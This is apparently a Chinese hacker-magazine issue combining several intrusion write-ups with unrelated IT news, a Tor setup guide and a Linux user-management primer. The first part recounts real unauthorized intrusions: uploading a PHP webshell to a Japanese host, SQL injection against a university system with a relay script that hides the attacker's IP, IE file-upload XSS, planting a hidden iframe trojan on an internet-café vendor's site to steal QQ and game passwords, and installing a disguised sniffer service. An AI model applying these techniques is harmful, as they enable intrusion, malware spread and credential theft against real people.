> 文章写得很浅薄，大家对我有什么意见，可以在非安全论坛上交流。我现在的课题是 IPv6 和网络入侵检测，希望达人们可以与我联系，共同进步啊。  
> 【文中用到的工具 1433 远程连接器、instsrv.exe、tftpd32.exe 已收录在本期光盘中】  
> 编辑点评：作为提出一个问题，然后通过多种不同测试得出解决此问题的办法，面对一个入侵站点，依次采用不同方法。写法很平实但有启发性。

# 意外入侵日本主机（一）

正如题目所说，这次入侵纯属意外。虽然需要的技术不多，但我还是把这次意外记录了下来，也算是个人入侵小结吧。

## 一、发现目标

我喜欢做网站，虽然买了网站空间，但由于习惯，偶尔也看看是不是有什么免费空间。网页设计刚刚起步的小菜们，你们是不是也热衷于做这个事情啊？无意中发现一个日本免费空间（如图 1）还不错，特别是“高速”两个字特别引人。对于一个网站站长，谁不想有个高速空间呢？按照申请方法，我成功申请到了这个免费的 10M 空间。废话少说，进入主题。

## 二、初步刺探

我通过 ftp 上传了一个 php 探针，看看下载速度和主机的一些情况。探针显示速度确实很快，但出乎我意料的是主机系统竟然是 WINNT（如图 2）。因为用 Linux 或 Unix 来做支持 php 的主机系统，无疑是最好的选择：效率高，关键是安全性要好很多。


我比较懒，还是用自己以前写的一个 php 木马——flyhack v1.0。这个小程序虽然比较简单（不到 50 行代码），但却比较实用，最重要的是不会被杀毒软件查杀。

先配置好木马（第 4 行设置密码），用 ftp 上传后看到文件列表（如图 3）。提一下：我开始上传的是中文版，却发现网页上的字体都变成了日文。算了，还是用英文得了，也就是把中文换成英文。点了一下 up list（就是上一层目录的意思），竟然看到了所有用户目录（如图 4）。我迫不及待地点了一个用户目录，竟然也打开了。此时此刻，我十分庆幸自己没有把网站放到这台主机上，不然我的所有资料不都暴露了吗（虽然没做亏心事，但也是隐私啊）。

我赶紧再往上翻，又成功打开了上层目录（如图 5）。一看，他的主页就这么点东西。为了测试这个目录是不是那个网站目录（有些网站目录为了安全不和一般目录放在一起），我点了一下 index.html（注意别点“x”，那是删除的意思），都是日文，我也不懂（如图 6）。


先来个清空，提交却出现错误：“Warning: fread(): Length parameter must be greater than 0. in c:\www\users\h058\1.php on line 47”。哦，是写入字数必须超过 0 个字节。于是我填入了“1”，好了（如图 7），写入成功！打开首页看看，果然被修改了。为了继续我的刺探，我还是把首页改了回来。时间已经不早了，吃午饭去……

## 三、深入刺探

急急地吃过饭，继续查看这个网站。通过我的那个木马把网站翻了个遍。打开 `c:\boot.ini` 发现原来主机只有一个操作系统：Microsoft Windows XP Home Edition（如图 8），应该是个私人的服务器吧，不过看他也没装什么软件。


算了，这么不安全的主机，就算拿到了密码，也不会太久！我想他也没装什么杀毒软件，于是上传了 phpspy2006，虽然没有“游侠 2006”功能强，但也不错了。我先在他的主目录上传了个文件，竟然也成功了。要是我把他网站做个网页木马那不是太好了么（可惜现在我不做这种事了，要是以前碰到不得太高兴哦^-^）？再打开 webshell（如图 9），运行 `dir c:\` 成功得到了回显（如图 10）。接下来我也不多测试什么了，那对我来说一点意思都没有。我想如果这个主机连这些基本防护都做得如此之差，其他的还有什么好说的呢？


## 四、刺探后感

本来还想把他的首页改一下，从而提醒一下管理员。但我又不懂日文，而且这个服务器又不大（测试结果显示明显是私人的），所以也就不做这种“善事”了。我所痛心的是所有注册他网站的 300 多名用户，他们的资料如此不安全。写这篇文章的目的也在于此：免费空间也要谨慎使用，虽然空间便宜或看起来不错，但还是不稳定的（要注册免费空间也得选个大站）。文中所用技术不高，给大家提提思路，也算一起进步吧！

> 【文章中作者写的 php 木马 flyhack v1.0 已收录在本期光盘中】

# 再谈 SQL Injection 贯穿游戏

mx

SQL Injection 该算是一个比较古老的技术了。NBSI、HDSI、狂注幽灵等工具的出现，使得许多刚会使用鼠标的菜鸟一跃成为 MSSQL SERVER 的杀手。然而，如果不去了解 SQL Injection 的原理，过分依赖工具，往往会使我们的渗透过程中处处遭遇障碍。今天我就来谈谈我在使用工具过程中遇到的问题，以及我解决问题所用到的方法，希望读者看过后能够有所启发。

图 1 是我们学校学生选课/查询成绩的登录页面。在“输入学号”一栏填上“1 having 1=1 --”，密码随意，提交后返回信息如图 2 所示。

```text
Host: jwc.bjfu.edu.cn
Content-Length: 71
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONID...
...xuenian=2004&xueqi=2&R1=V1&txtxuehao=1&txtmima=1&cmdtijiao=%CC%E1%BD%BB
```


很明显，“学号”这一变量没有被过滤，存在 MSSQL 注射漏洞。但是“学号”这个变量必须使用 POST 方法提交。现在我们的任务便是把提交数据提取出来，然后使用前辈们写的 SQL 注射工具，利用“学号”这个变量在服务器上跑数据。打开 WSE，将监听窗口选择到“注册”这一项（如图 3）。


然后回到 IE，点击提交后，WSE 便会对 IE 发出去的数据进行抓包（如图 4），以下便是 WSE 捕捉到的数据：

```http
POST /xxx/xxx/xxx.asp HTTP/1.1
Accept: */*
Referer: http://xxx.edu.cn/xxx/xxx/xxx.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 ...
```

我们把数据包最后一行分离出来，把“txtxuehao”放在最末端，然后与选课页面的 URL 连在一起形成一个新的 URL：……然后把这个 URL 写到“狂注幽灵”注入点里。如果顺利，这时候便可以在服务器上跑数据了。

然而，无论我把注入方式设置为 get 还是 post，“狂注幽灵”返回的结果都不尽人意（如图 5）。于是我对“狂注幽灵”提交出去的数据进行了一次抓包，以下便是它提交出去的数据：

```http
POST /xxx/xxx/xxx.asp?xuenian=2004&xueqi=2&R1=V1&txtmima=1&cmdtijiao=%CC%E1%BD%BB&txtxuehao=1%20and%20user>0 HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
Host: host
Content-Length: 4
Cache-Control: no-cache
Cookie: ASPSESSIONID...

POST
GET /xxx/xxx/xxx.asp?xuenian=2004&xueqi=2&R1=V1&txtmima=1&cmdtijiao=%CC%E1%BD%BB&txtxuehao=1%20and%201=1 HTTP/1.1
User-Agent: Mozilla/4.0
Host: host
```

## 七、后门

西线无战事黑客手册


图5

抓到的数据包让我感到特别头痛，手头上的“狂注幽灵”向服务器提交的数据竟是如此不规范，而且即使你在“狂注幽灵”中选择使用“POST”，程序依然会在第二次提交数据的时候变成“GET”。唉～怎么办呢？放弃这一台服务器？不舍得，改成手工注射？我可没那个耐心。于是，自己写了这么一个PHP脚本，用来对“狂注幽灵”提交的数据进行过滤：把数据包中的“GET”改成“POST”，然后重新转发到我们学校的服务器上，脚本的代码如下。

```php
<?php
if ($a) {
    $a = stripslashes($a); // 取出PHP为$a自动添加的“\”
    $f = fopen("record.txt","a"); // 保存$a到record.txt以便以后分析和学习
    fwrite($f,$a."<br>\n\n");
    fclose($f);
    $url='http://xxx.edu.cn/xxx/xxxx/xxx.asp'; // 登录页面
    $data['txtxuehao']='050674101';
    $data['txtmima']='111';
    $data['cmdtijiao']='1';
    echo HTTP_Post($url,$data); // 将$data中的数组POST到http://xxx.edu.cn/xxx/xxxx/xxx.asp
}

// 以下是函数 HTTP_Post 的定义
function HTTP_Post($URL, $data, $referrer='') {
    // parsing the given URL
    $URL_Info=parse_url($URL);
    // Building referrer
    if($referrer=='')
        $referrer='111';
    // making string from $data
    foreach($data as $key=>$value)
        $values[]="$key=".urlencode($value);
    $data_string=implode('&', $values);
    // Find out which port is needed - if not given use standard (=80)
    if(!isset($URL_Info['port']))
        $URL_Info['port']=80;
    // building POST-request
    $request='POST '.$URL_Info['path'].' HTTP/1.1\n';
    $request.='Host: '.$URL_Info['host'].'\n';
    $request.='Referer: '.$referrer.'\n';
    $request.='Content-type: application/x-www-form-urlencoded\n';
    $request.='Content-length: '.strlen($data_string).'\n';
    $request.='Connection: close\n';
    $request.='\n';
    $request.=$data_string.'\n';

    $fp = fsockopen($URL_Info['host'],$URL_Info['port']);
    fputs($fp, $request);
    while(!feof($fp)) {
        $result .= fgets($fp, 128);
    }
    fclose($fp);
    return $result;
}
?>
```

这个脚本的代码很简单，功能却很强大：

- 它实现了对数据包的修改和转发；
- 实现了代理的功能，从而隐藏攻击者的真实IP；
- 程序对“狂注幽灵”提交的数据写到了“record.txt”文件，方便我们以后学习。

现在把这个PHP脚本命名为“record.php”，然后保存到自己的PHP空间上。我安装这个脚本的地址为 http://blinx.512j.com/record.php，现在提交“http://blinx.512j.com/record.php?a=1'having 1=1--”试试，脚本返回信息如图6所示。


图6

看来这个脚本可以正常转发数据了。现在的任务当然是在“狂注幽灵”的注射点位置填上 http://blinx.512j.com/record.php?a=，然后点击“开始”。一会儿，期待的结果便出现了^^（如图7）。


图7

文章到这里就结束了，篇幅不长，涉及到的知识倒不少，希望这篇文章能对读者有所启发。下回见！

> 【文章里用到的口头工具wse.exe和狂注幽灵已收录在本期光盘中】

> 编辑点评：这篇文章的重点不是讲解如何注射的技巧，而是一个巧妙的数据包转发。文章中的作者写的PHP脚本代码，如果能够改成通用的数据包转发代码，或许菜鸟们会受益更大吧！


## Microsoft Internet Explorer脚本解析漏洞

HaK_BaN[B.C.T]

自从MS05-038之后，Internet Explorer的漏洞就开始慢慢地销声匿迹了，接踵而来的却是Internet Explorer的对手FireFox的多个漏洞，而且漏洞以惊人的数字出现，慢慢地大家都走向了FireFox的漏洞当中，而我们小组在无聊和苦闷的日子当中发现了Internet Explorer的脚本解析漏洞。原因是当Internet Explorer访问目标文件的时候，首先会按协议进行访问，但是没有注意到文件格式，而文件内容的HTML部分会因此被Internet Explorer执行，产生跨站脚本攻击效果，而且影响的文件类型很多，例如：TXT/DOC等等文件都会出现问题。当恶意用户把构造好的文件上传到网站的时候，只要用户访问文件的时候就会触发效果（如图1）。


图1


图2

后再加入跨站脚本代码，这样就可以令管理员不起疑心了。因为是测试效果，我也就不介绍进一步的入侵了。如果大家想利用这个问题来入侵动网的话，可以看看Linzi在10月的《黑客手册》当中关于跨站脚本攻击的文章，当中也有介绍如何利用跨站脚本进行入侵动网，而其中一个手法就是借助IE这个漏洞来入侵的。

## 一、实际利用

在知道漏洞原理之后，首先要想想如何去利用漏洞，要不然知道了原理也没有什么作用。针对现在的程序来说，大部分论坛以及网站程序都要禁止恶意脚本的，我们可以构造自称程序所允许的文件格式上传，然后诱骗管理员点击从而干我们想干的事情。首先我们拿动网论坛（DVBBS）来举例说明，当我们构造一个含有恶意代码的文本或者其它认可文件上传的时候，因为ViewFile.asp会调用上传文件所在地址，致使用户访问文件内容或者下载文件。有些朋友会说，ViewFile.asp应该是调用文件内容，然后显示出来的吧！经过代码的查看：

```vb
if Dvbbs.Forum_Setting(76)="" Or Dvbbs.Forum_Setting(76)="0" Then Dvbbs.Forum_Setting(76)="uploadFile/"
If right(Dvbbs.Forum_Setting(76),1)<>"/" Then Dvbbs.Forum_Setting(76)=Dvbbs.Forum_Setting(76)&"/"
Dim uploadpath,filename
uploadpath=Dvbbs.Forum_Setting(76)
Set rs=Dvbbs.Execute("Select * From dv_upfile Where F_id="&downid)
If Rs.Eof And Rs.Bof Then
    Dvbbs.AddErrCode(32)
Else
    If Dvbbs.Forum_Setting(75)="0" Then
        Dvbbs.Execute("Update dv_upfile Set F_DownNum=F_DownNum+1 Where F_id="&DownID)
        Response.Redirect uploadpath&rs("f_filename")
    Else
        filename=Replace(rs("f_filename"),"'","")
        If Request.ServerVariables("HTTP_REFERER")="" Or ... Then
            Response.Redirect "index.asp"
        Else
            Call downloadFile(Server.MapPath(Dvbbs.Forum_Setting(76)&filename))
        End If
    End If
End If
```

从上面我们就可以看到，因为它的模式是直接指向文件的所在目录以及文件名，再加上IE的脚本解释问题，我们就可以触发漏洞的效果，从而实现跨站入侵。当上传文件上去之后，只要任何人点击文件就会触发漏洞效果，要注意的是因为文件当中的语句被执行了，所以当ViewFile.asp指向文件查看的时候，我们是完全看不到任何显示的（如图2）！所以为了隐藏，可以在构造文件当中输入一些无关的信息，然后再加入跨站脚本代码。

## 二、题外话

Leadbbs/bbsxp都存在着同样的问题，Leadbbs比较特殊的是，因为它的上传文件访问是直接访问的，所以根本不需要什么页面转向或者指向，可以直接上传文件然后欺骗用户点击，从而进行跨站挂马或者是入侵。在FireFox或者Mozilla当中都没有发现这个问题，当你用Mozilla访问时，浏览器会把文本当中的跨站脚本直接显示出来，不会触发任何跨站效果。建议大家还是抛弃累赘的IE浏览器，换FireFox的好，虽然它的漏洞很严重，但是在国内来说它还是无敌的！不信可以试试。

> **编辑话语：**这其实应当算作一个缺陷而不是漏洞。这个缺陷，应当在几年前大家就广泛应用了，笔者只不过提升到了一点理论上的高度。我再狗尾续貂：只要是符合HTML代码规范，多数文件名后缀不等同于html、htm时都可以远程执行HTML代码。典型的例子很多，如做好网页木马改一个jpg后缀放到空间上让人访问依然可以成功；很多黑客游戏的成文中有时也会把密码放在js文件中，何必js文件却不可用js后缀，换`<script language=javascript src=1.jcx></script>`这样也是可以的；db_owner权限备份数据库时，为什么备份的asp文件当中有N多乱码时却依然能执行呢？因为其它的乱码被当作HTML输出了，这算作是这个缺陷的一个延伸了。再深入想一下，还有什么后缀的文件能够执行系统权限但是依然不怕文件里的乱码呢？……这就是hta！因为hta里的乱码也当作HTML输出了。

# 响应队长技

替换恶意程序 inuse.exe

- `inuse replacement destination [/y]`
- 参数说明：
  - Replacement：指定新的文件
  - Destination：指定要替换的文件
  - /y：不显示确认信息

# 记一次另类入侵

剑心[B.C.T]

最近谈到入侵，大家就会联想到脚本。但是我感觉对于系统配置的入侵也许更有意思。我对于脚本什么的不像BCT的其他几位那样熟悉，能几小时几小时地看漏洞。偶很佩服他们的智慧与耐心，不过对于我们这样的菜鸟，如果能抓住系统配置上的漏洞，也可以疯狂Hacking的。这次，我就利用了一些系统配置上的漏洞和本身的缺陷，用菜鸟的办法对我们这个地区的网吧轻松地来了次大型Hacking。

我们学校周围有很多网吧，平时去得少，上次发现了某漏洞后，好多网吧都换了系统。只有其中一个还坚持着使用98，后来又让人做了一次系统。我想，现在应该都不存在什么管理和配置上的漏洞了吧。只是最近在其中一个网吧上网时，却让人大跌眼镜。打开浏览器时一下子就转到了一个叫什么XX工作室的网站，主页做得很烂，明显就是个只顾做广告的商业网站。并且我们这堆机器都有还原卡，所以应该系统本身就是这样设置XX网站为主页的，并不是被别人修改的结果。再看机器的显示器背景，亦然写着XX工作室作品。我一下子明白了，原来是网吧做电脑的人设置的，这样做是为了广告。本来这种设置没什么，只是让人上网心情有点不爽而已。可是当我打开一个网站论坛，看论坛赫然显示的是IE5.0时，我忽然想到，这也许是个潜在的侵入点哦！大家平时不是都会挂马么？挂马的主要目标不就是一些XX的密码和账号么？XX密码账号最密集的地方不就是网吧么……怎么看，很邪恶的想法吧！而且我们根本不用费尽心思地在网吧的网络里下马什么的，只要对这个IE默认的网站做点什么非法的事情就有很多的肉鸡了！并且这些肉鸡是掉宝几率比较高的肉鸡哦！什么QQ、传奇、奇迹……当然，我们只是讨论技术上的因素，你不要想歪了。还有的好处是不用担心会被人发现，重启系统就什么痕迹都没有，完全不用担心没有人上钩，谁上网不打开IE呢……呵呵，那就让我们开始这充满诱惑的行动吧！

同其它入侵一样，我们还是先看看这次入侵的思路到底正不正确吧！我们打开浏览器，在浏览器的帮助菜单里看看关于IE这个属性，如图1所示。哈哈，看到了吧，真的是IE5.0啊，没有打补丁的哦！看来漏洞是存在的！并且考虑到是在网吧，都是一个母盘做出来的，应该所有的机器的IE都是这个版本，并且应该在一段时间不会更新的。再看下其它的设置如杀毒软件什么的，发现基本是不会设防的，什么安全软件都没有！毕竟机器不好，再跑个杀毒软件机器不慢死才怪呢！不过我们的马儿跑起来肯定很顺畅！好了，客户端方面的条件是满足了，呵呵。进行下一步吧！


图1

如果我们挂马的网站进不去也是白费啊！现在去XX网站的站点看看，看到主页里的这么一个东西如图2所示，哈哈，原来都是自己的业绩啊，看起来还不只是做的一个网吧啊，应该是个大的网吧服务工作室吧！如果其它的网吧都是这么设置的话，那不是半个城市的网吧都要被我……先不要激动了，看看能不能进去网站哦！目标当然是拿到webshell，然后修改主页挂上我们自己的反弹木马啊，这样网吧的人打开IE就会中招了。


图2

一看访问量就知道是access的，所以不费手动浪费精力了，交给NBSI跑吧，扫描网站的结果如图3所示。不过结果不理想哦，没有一个可能性高的注入点。我手工测试了一下，果然也不行！暴了几个地方的数据库，都是屏蔽了500错误，显示联系管理员。再仔细看了一个有关版权的页面，应该是最新的动易系统，我还不知道有没有漏洞，但是在没有确定这个网站弄不下来之前，先不要急着旁注了，总是用强大的旁注工具旁注会把人变傻瓜的。


图3

既然我们是通过配置上面的漏洞入侵，那就继续找配置上的漏洞入侵这个网站吧！经过一番搜索，发现从文章系统到BBS论坛什么都是最新的系统，没有什么明显的漏洞和配置，基本上没有什么杀伤力的。不过，在一个很不起眼的地方我发现了一个什么VOD电视点播测试系统。呵呵，对于这样还没有开放的测试系统，不知道管理员会不会在管理上用心呢？不管了，直接URL后加/admin，出现登录的地方，我们直接输入一般的默认用户admin、admin尝试进去，晕，居然成功了。后台有个数据库备份哎！如图4所示，可以定义源地址和目的地址，我什么都不说了，大家都会的啊！去图片中心申请了一个用户上传改了jpg后缀的经典asp木马，这里拿到了webshell如图5所示。嘿嘿！传个海阳的木马上去了，很幸福没有被杀哦！


图4


图5

开始实施我们邪恶的目的啦！因为网吧的机器大部分是内网，所以如果是控制的话应该用反弹的木马，这里我们选的是……为什么用心，这东西到处都有介绍的，你可以去他们的主页下载。好了，配置的时候反弹的域名就写我申请的花生壳了。等到你确定你配置好了之后，我们就开始做网页木马了。对于这个，没什么说的了，IE5.0，随便一般的网页木马都可以轻松搞定了。我这里用成功率比较高的Icyfox的木马，按照程序里的说明将配置好的种子以备份为*.exe然后生成，将生成的文件通过海阳木马放到网站目录里，在首页中间地方加入`<iframe src='icyfox.htm' width='0' height='0' frameborder='0'></iframe>`，如图6所示，这个做什么用的啊就不说了，前几期的《非安全》有详细介绍，保存后大功告成。


现在等一会来看我们的成果吧，网吧的人开IE的几率还是很高的哦！如图7所示。看到了吧，才十分钟就有这么多的主机上线了，看看名字的规律就知道有的甚至一个网吧基本上都被我控制了，所有的密码什么的都已经放在我面前了，因为上面什么杀毒都没有的，我要盗QQ、网络游戏……随我的便了。也许大家对于安全真的应该重视了，我只是抓个图就离开神气儿了。

现在大家来看看这次入侵吧！是的，按朋友所说的，我并没有什么技术性的东西。但是，对于入侵一个这样配置的网络还需要很好的技术吗？也许配置和意识才是最重要的。如果做网吧网络的人能够有一些安全意识，他不会把IE停留在几年前的版本，甚至没有杀毒软件；如果网站的人员有点安全意识，不会管理账号和密码都是默认；后来发现网站还是可以旁注的，网站服务器上目录限制也不严密，这又关系到服务器管理员的安全意识……我只能说，漏洞无处不在，系统的版本如此低，如果我在主页里插入引发98蓝屏漏洞的代码……

本文没有什么新技术，只是讨论思路，我也只是按照自己的思路进行了一次检测，没有做任何破坏动作，所以引发的任何问题与本人无关。感谢女友SW一直的支持，有什么问题欢迎到论坛讨论，我的ID是剑心。

## 短小精悍的嗅探器 Rawsniffer

亦然 [Fire Phoenix]

我们在取得远程主机的系统权限后，除了留下后门方便以后再次进入，很多时候还对网络上传输的信息感兴趣，特别是当信息以明文的形式在网络上传输时，比如说用户名、密码等，这时我们可以用网络监听的方式实现攻击，最常用的工具就是嗅探器（Sniffer）。例如已经取得了某内部网主机的控制权，如果在主机上安装了Sniffer，就能够在短期内获得大量的用户名和密码，不过安装Sniffer的主机必须和被监听的主机处于同一个网段上。

前几天在网上闲逛，无意中发现了一款嗅探器Rawsniffer，用了一下，超爽！麻雀虽小，五脏俱全哦，真是极品。现在就给大家介绍一下。Rawsniffer是DOS命令提示符下的嗅探工具，其用法如下：

```bash
rsniffer -snifall -dp 0 -o c:\1.txt
表示嗅探smtp、pop、ftp、post、telnet并保存到文件（-dp 0）为过滤无信息。

rsniffer -snifall -dp 0 -o c:\winnt\config\1.txt -install sniffer -disname 显示名称
表示安装成服务名并带参数。

rsniffer -uninstall sniffer（服务名称）
卸载服务。
```

看到没有，Rawsniffer能注册为系统服务，哈哈，这下就不怕主机重启动了。一直以来，嗅探器是我最喜欢的东东之一，以前用得最多的就是安全焦点的X-Sniffer，虽然也不错，不过不能安装为系统服务，而且也经常被杀毒软件kill。相比起来，Rawsniffer确实是一款很理想的嗅探器，同时还能够自定义服务名称和显示名称，具有很好的伪装效果。下面我在本机上安装试试，看看效果如何。

## 1. 嗅探

Rawsniffer在安装时显示了协议、超时限制、保存路径和保存类型等等，然后让你确认是否安装，输入“Y”即可（如图1）。好了，现在嗅探器已经开始监听了，然后进入网易邮箱，还有我的FTP。现在终止嗅探器的进程来看一下嗅探的结果。终止监听用CTRL+C，如果是在远程主机的CmdShell下，最好是先把进程杀掉。终止嗅探后，其嗅探结果会在命令行下显示出来（如图2）。一共有username和password等信息，还是明文显示哦，把我登录邮箱和FTP的用户名和密码，还有目的主机IP地址等都记录下来了。同时C:\1.TXT也保存了嗅探结果，比起命令行下就更为详细了。

## 2. 注册为系统服务

现在我们来看一下把Rawsniffer注册为系统服务。使用命令`rsniffer -snifall -dp 0 -o c:\winnt\config\1.txt -install sniffer -disname RawSnifferService`，就把Rawsniffer嗅探器注册成服务名为Sniffer，显示名称为RawSniffer Service（如图3）。当然，我们在远程主机上安装时，要使服务名称和显示名称具有迷惑性，这样管理员才不容易发觉。


安装好了以后，启动服务，命令为“net start 服务名称”。这样嗅探器就成功地以系统服务的身份运行了（参见图3）。最后说一下Rawsniffer的卸载，也很简单，用“net stop 服务名称”停止服务后，再用“rsniffer -uninstall 服务名称”就可以了。

> 【文中所涉及的软件光盘中有所提供。软件如下：Rawsniffer】

# 一、有代理，网际穿梭也无敌

代理服务器（Proxy Server）是在 Internet 上具有大容量存储设备的一个服务器，它的任务是代替使用者到网上取得所需要的资料，并且把最近被访问过的内容暂时保存在服务器上。比如你在浏览器中设置为使用代理服务器访问 Internet，当你想去微软的网页看看有关微软产品的最新消息时，你的浏览器就会先到你所设定的代理服务器上去查找有没有微软网页的最新内容；如果没有，就由这个代理服务器去把微软的网页下载回来，放在服务器上并且也传送给你的浏览器。如果这个网页的最新内容已经放在代理服务器上，那么代理服务器就不再到微软的网页上，而是直接把这些内容传送到你的浏览器。但是这些被存储下来的信息如果是非常敏感的，如个人隐私等，那你还会选择它吗？

今天就给大家介绍一款没有后顾之忧的代理软件，它的原理是通过将本地协议转换成 SOCKS4，再发送出去，SOCKS4 本身就有安全模块夹在其中。另外，这个软件的所有操作都是在本地完成的，这样也可以避免敏感信息被泄漏了。它就是 Tor，还有一个是 Tor 的外壳——Privoxy。

大家都知道在教育网内很多网站没有办法访问，就连 GOOGLE 也不行，下面就以教育网访问 GOOGLE 为例来讲解一下 Tor 及其外壳 Privoxy 的使用。

- 1. **第一步：未用代理软件前的测试**  
  打开浏览器，输入 `www.google.com`，稍等即会出现如图1所示的画面，提示无法找到指定的网站。
- 2. **第二步：安装并执行代理软件 Tor**  
  执行后的界面如图2所示。
- 3. **第三步：安装并执行 Tor 的外壳——Privoxy**  
  执行后会出现如图3所示的界面，其中选中的那行说明了代理是否正常运行，以及开的端口。
- 4. **第四步：进入配置文件添加配置**  
  在菜单栏点击“Options”，选择下面的“Edit Main Configuration”子菜单（图4）。  
  然后在主配置文件中的第一行添加：`forward-socks4a / localhost:9050 .`（图5）。  
  参数说明：`forward-socks4a` 表示将其他协议转换成 socks4 传输；`localhost` 指本机 IP（127.0.0.1）；`9050` 为 Tor 使用的通信端口。
- 5. **第五步：在浏览器中设置代理**  
  在 IE 的“Internet 选项”→“连接”→“局域网设置”中勾选代理服务器，地址填 `127.0.0.1`（或 `localhost`），端口填 `8118`（图6）。
- 6. **第六步：再次测试**  
  再次打开浏览器输入 `www.google.com`，即可看到完整网页（图7）。

至此，我们利用 Tor 及其外壳 Privoxy 进行代理配置已经全部完成，很简单吧？大家可以放心使用，有什么问题就来我的 BLOG 吧：http://smallrascal.blog.tom.com。

> 编者按：本文主要讲解了代理的原理，和如何使用代理软件 Tor 及其外壳 Privoxy。

11 月的空气变得稀薄，学生们也要准备期中考试了。每到这个时候都没有人要玩深刻知识了，甚至无论学什么，平时的积累就很重要。英语是这样，计算机知识也是这样，有些一夜的损失不一定能换到自己想要的答案，但却无形中积累了很多其他相关的知识。

本期《留分》不仅带来了基础知识，也加充实了与 W 相关的内容，简单而实用。另一边读者要求继续制作了 P2P 主题的文集，由 news 通过新闻小道看一看产业版的 IT 环境。

资本主义的出现带来了“垄断”这个词。当人们意识到垄断所带来的负面效应时，便开始“反垄断”。多少年过去了，似乎世人并没有意识到什么是反垄断，依旧在当前利益与长久利益中挣扎、徘徊。当然我们不会意识到自己的错误。在自己眼里，可能只是“申请标准”，或是其他华丽的行为。

# 新 Linux 标准出台，旨在防止 Linux 分化

Linux Standards Base（LSB）3.0 规范最近已经发布。新的 LSB 标准旨在防止 Linux 分化，已获得了主要 Linux 厂商的广泛支持。

LSB 规范由 Free Standards Group 负责维护和开发，并计划通过一套基本 API 和库实现跨硬件平台的 ISV 就可以开发和移植应用。以前项目 devs 在 LSB 以前的 Linux 版本里运行。这套 LSB 标准目前支持了 7 种架构，包括 IA32、IA64、PPC32、PPC64、S390、S390X 和 X86_64。

标准并不是万能的，但能方便用户的使用、学习，更能促进 Linux 快速、健康发展。中日韩联合发布过亚洲版 Linux，各界都在为标准化努力。事实上，标准化在历史上一直快速推动着产业的发展。

# 微软为保垄断地位，不推 Linux 版 Office

微软平台战略部门主管尼克·麦克格拉斯（Nick McGrath）本周三表示，尽管微软正在积极研究 Linux 操作系统的工作方案，但公司并不会推出 Linux 版的 Office 办公软件。

麦克格拉斯在 LinuxWorld 大会上表示：“我可以肯定地说，微软将把全部精力放在 Windows 操作系统上。目前我们没有推出 Linux 版 Office 办公软件的计划。”

开放源代码社区的知名人物埃里克·雷蒙德（Eric Raymond）表示，微软是否推出 Linux 版 Office 并不重要，因为用户已经有 StarOffice 和 OpenOffice.org 等产品可供选择。他说：“最重要的一点是，微软应当公开所有的文件格式和通信协议，并保证不会起诉或纠缠开源代码软件开发人员。”

# 传 CNET 将购 CSDN 和 ChinaUnix，结果年底公布

有消息源透露称，CNET 将收购国内两家非常有名的专业技术网站 CSDN（www.csdn.net）和 ChinaUnix（www.chinaunix.net）。据悉，CNET 已经与 CSDN 进行了一次收购谈判，大概的收购价格约 500 万美元左右，目前还在保密期，年底前将有准确结果。

CSDN 网站主要面向 Windows 用户群和开发用户群，是国内数一数二的开发类网站；CSDN 网站流量不错，用户成员多以程序员为主，但是商业化发展走得很难，主营利润长期被摊薄。

ChinaUnix 主要面向 Unix、Linux 用户和系统管理员，也是非常有名的技术网站。据说，CNET 会给 ChinaUnix 开出的价格将比较苛刻，而一位资深观察员同时表示如果 CNET 收购 ChinaUnix 也只能是部分股份，而不是网站的全部股份。

# OpenDocument 将成 ISO 标准，开源桌面发力

OASIS 已经将 OpenDocument 格式提交给了负责主要标准的机构，业界可能会使开放源代码应用在政府部门更有吸引力。

OASIS 表示，已经将 OpenDocument 标准提交给国际标准化组织（ISO）。OpenDocument 是一套包括字处理、电子表格、演示软件等桌面软件可存储文件的格式。

第一版 OpenDocument 标准已经于今年早些时候在 OASIS 内获得批准，并被应用在 OpenOffice 开源代码办公软件包中。

此外，马萨诸塞州政府宣布，它已经选定 OpenDocument 为标准的文档格式。据 IBM 的代表称，其他州和联邦政府也在考虑转变到基于 OpenDocument 的产品。

Sun 的 StarOffice 支持 OpenDocument 标准，而微软的 Office System 则不支持该标准。

# Linux 基础——用户管理

在 Linux 系统中，每个人都有自己的账户。传统意义的用户管理就是给用户账号分配恰当的权限。不过我们这里不会仅局限于介绍权限分配，将把许多相关的小知识放在一起。

Linux 中有 2 个重要的用户配置文件：`/etc/passwd`（用户文件）和 `/etc/shadow`（密码文件）。

## 一、先来看看 /etc/passwd（图1）

一个用户的信息占一行，分 7 个部分，由 6 个 `:` 隔开。我们以 root 为例进行讲解：`root:x:0:0:root:/root:/bin/bash`

- 1. user name（用户名）。
- 2. 密码。早期的 Linux 密码是放在 passwd 文件里，由于很容易被窃取，所以现在已经转移到 shadow 文件。在 passwd 文件里用 `x` 表示密码。
- 3. UID（用户 ID）。系统通过 UID 识别用户身份。0 为 root，1–500 为系统保留用户，501–65535 为普通用户。
- 4. GID（组 ID）。和 UID 类似，用来识别用户组。
- 5. 用户全名。基本没什么用途。
- 6. 用户主目录。一般都在 `/home` 下，是一个以用户名为名字的文件夹；也可自定义，`/root` 特殊一点，在 `/root` 下。
- 7. 登录 Shell。用户登录系统后使用的 Shell 解释器，默认为 `/bin/bash`。

> **小知识**：Linux 下最常用的 shell：bash。bash（Bourne Again Shell）是 Linux 的缺省 shell。shell 是你（用户）和 Linux（或者更准确地说，是你和 Linux 内核）之间的接口程序，在提示符下输入的每个命令都由 shell 先解释然后传给 Linux 内核。

## 二、接下来是 /etc/shadow（图2）

密码信息同样用 `:` 隔开，有 9 个部分。

- 1. 用户名。
- 2. 加密后的用户密码。如果为空，则表示没有密码。
- 3. 修改日期。
- 4. 密码在多少天内不能修改。
- 5. 密码在多少天内必须修改。
- 6. 用户在多少天后被禁用。
- 7. 密码到期后多少天内给用户发出警告。
- 8. 被禁用的日期。
- 9. 保留部分。

我们可以通过编辑这 2 个配置文件来进行用户管理，但你是否觉得很烦琐？有没有更好的方法呢？答案是肯定的！

## 三、通过命令管理用户

Linux 主要有字符界面和图像界面。图形界面的操作十分简单，就不必详细研究了，给大家介绍几个管理用户的命令：

- 1. 建立新用户：`useradd 选项 用户名`。  
  常用选项：
  - `-d` 目录：指定用户主目录；如果此目录不存在，则可配合 `-m` 选项创建。
  - `-g` 用户组：指定用户所属的用户组。
  - `-s` Shell 文件：指定用户的登录 Shell。
- 2. 设置/修改用户密码：`passwd 选项 用户名`（需要根据提示输入 2 次密码）。  
  常用选项：
